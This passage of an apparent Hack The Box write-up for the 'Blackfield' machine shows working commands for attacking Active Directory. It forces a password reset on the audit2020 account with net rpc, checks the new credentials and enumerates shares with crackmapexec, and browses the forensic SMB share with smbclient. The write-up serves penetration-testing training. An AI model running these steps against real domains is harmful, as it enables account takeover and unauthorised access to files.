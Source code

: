 ![image-20200831200012084](/assets/images/htb-writeup-blackfield/image-20200831200012084.png)

## Password reset for user Audit2020

We'll use the `net` program to force the password change of the **Audit2020** user. The first password entered is the new password for audit2020, here we'll use `Password123`. The second password prompt is the password for the **Support** user.

```
snowscan@kali:~/htb/blackfield_demo$ net rpc password audit2020 -U support -S 10.10.10.192
Enter new password for audit2020:
Enter WORKGROUP\support's password:
```

Using crackmapexec, we can see that the new password works and that now have access to the **forensic** SMB share:

```
snowscan@kali:~/htb/blackfield_demo$ crackmapexec smb 10.10.10.192 -u audit2020 -p Password123 --shares
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:Password123 
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```

## Getting the NTLM hash for svc_backup

After connecting to the SMB share we see a bunch of directories:

```
snowscan@kali:~/htb/blackfield_demo$ smbclient -U audit2020%Password123 //10.10.10.192/forensic
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020
```

